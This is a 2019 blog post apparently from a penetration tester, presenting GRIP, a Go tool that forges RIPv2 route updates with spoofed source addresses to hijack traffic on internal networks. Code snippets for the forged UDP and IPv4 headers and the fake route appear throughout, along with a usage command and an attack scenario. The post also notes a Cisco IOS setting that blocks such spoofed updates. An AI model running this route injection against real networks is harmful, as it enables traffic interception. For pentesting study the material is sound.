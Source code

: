 ```yaml
---
layout: post
published: true
image: /img/grip.jpg
date: '2019-01-27'
title: GRIP v0.1
subtitle: Go RIP Injection Program
---
```

It has been in my mind for quite some time to learn Golang and write some pentesting-oriented tools lately. I've finally made up my mind and wrote a tool to inject fake RIPv2 routes in a network in Go that I called Golang RIP Injection Program (or GRIP for short). This is still in early development but it already works flawlessly so you can use it.

First things first, let's give credit where credit is due. Most (if not all) of the heavy lifting had already been done by my good friend [Lorenzo Nicolodi](https://www.linkedin.com/in/lorenzo-nicolodi-83a04420/) who explained in [great details](https://microlab.red/2018/04/06/practical-routing-attacks-1-3-rip/) how to perform these kind of attacks against common routing protocols (namely RIPv2, OSPF and BGP). He also owns a [repository](https://github.com/illordlo/exploits/tree/master/routing) where he hosts python code to do so.
<p class="alert alert-info">
    <span class="label label-info">NOTE:</span> Yes, I know that RIPv2 is considered legacy by some and yes, I know my code sucks, I'm not a programmer. But there's still a ton of organizations which use RIPv2 as their internal routing protocol and this code works even though it seems like it was written by a monkey, so deal with it ¯\_(ツ)_/¯
</p>

The [code I wrote](https://github.com/last-byte/GRIP) is fairly commented so it shouldn't need a lot of explanaition. I'll only go through the key parts.

The code starts by setting up some constants and a structure containing the header of the UDP datagram:

```
type udpHeader struct {
  SrcPort  uint16
  DstPort  uint16
  Length   uint16
  Checksum uint16
}
```

I then declared a function called `forgeDatagram()` that will forge the IPv4 datagram. It takes as input  the UDP payload (later created in the main function), the destination IP address and the (eventually forged) source IP address.

<p class="alert alert-warning">
    <span class="label label-warning">CAUTION:</span> since IOS version 15 Cisco started setting as true the <code>valide-update-source</code> option in routers by default. This options prohibits route updates that are not from the same subnet so it's impossible to make the routers accepts routes with spoofed sources unless this option was disabled.
</p>

The function proceeds to create the UDP header by setting the source and destination port and the length of the UDP datagram. As Lorenzo pointed out multiple times in our conversations, RIP is one of the few protocols that actually requires a precise source port and not just a random one:
```
header := udpHeader{
    SrcPort: 520,
    DstPort: 520,
    Length:  uint16(udpHeaderLen + len(data)),
  }
```

After that it appends the payload to the UDP header and then forges the IPv4 header:
```
ipv4Header := &ipv4.Header{
    Version:  ipv4.Version,
    Len:      ipv4.HeaderLen,
    TotalLen: ipv4.HeaderLen + udpHeaderLen + len(data),
    ID:       0x0000,
    Protocol: ipv4Protocol,
    Dst:      dstIP.To4(),
    Src:      srcIP.To4(),
    TTL:	1,
    TOS:	0xc0,
    Flags:	0x4000,
  }
```

Once this is done the function proceeds to convert everything to bytes and pack everything up, returning a valid IPv4 datagram.

The main function is responsible for handling the user input and preparing stuff required for the program to work so I won't bother too much explaining it. One part that needs some explaination is the one responsible for forging the RIPv2 payload:

```
// Prepare input data to be used to create the packet
routeTag := uint16(0)
netAddr := net.ParseIP(*netPtr)
dstAddr := net.ParseIP(*dstPtr)
// Parse subnet mask as uint32
netmask := net.ParseIP(*mskPtr)
netmaskInt := binary.BigEndian.Uint32(netmask[12:16])
metric := uint32(*metPtr)

// Setup the fake route and create the packet
nextHop := net.ParseIP("0.0.0.0")
rtePtr := rip.NewRoute(netAddr, nextHop, netmaskInt, metric, routeTag)
pktPtr := rip.New(2, 2)
pktPtr.Routes = append(pktPtr.Routes, rtePtr)
packet, _ := pktPtr.Pack()
```

Here the programs takes the pointers to the values of the various flags and parses them accordingly to the type needed. It then forges a route using `rip.NewRoute()` using the address of the network, the next hop (set to 0.0.0.0 to signify the route is directly connected) the subnet mask, the metric and the route tag as arguments. After that it creates the UDP payload using the `Pack()` method of the packet. The resulting payload is sent to the aforementioned `forgeDatagram()` function as argument together with the source and destination addresses.

The rest of the program is about setting up the socket and sending the packets through the network so it's not of much interest.

And now it's time for some shitty drawings (y'all've been waiting for this, right?)
This is our scenario:
![attack1]({{site.baseurl}}/img/attack1.jpg)

The attacker wants to hijack packets meant for `10.0.0.100` so he uses GRIP to inject a fake route in the network:
```
$ sudo grip --network 10.0.0.100 --src 172.16.0.100
```
And this is what happens in reality (okay, this may be a bit fictionalized for the sake of simplicity)
![attack2]({{site.baseurl}}/img/attack2.jpg)

The router receives the fake route and advertises it to its neighbours (your friendly neighbour ~~spiderman~~ router)
![attack3]({{site.baseurl}}/img/attack3.jpg)

And obviously now the victim feels the need to connect to 10.0.0.100 and tell him something (those victims have always a perfect timing when it comes to hacking!)
![attack4]({{site.baseurl}}/img/attack4.jpg)

As soon as I finish the one to [attack OSPF](https://microlab.red/2018/05/03/practical-routing-attacks-2-3-ospf/) I will integrate it with GRIP. See you at the next post!
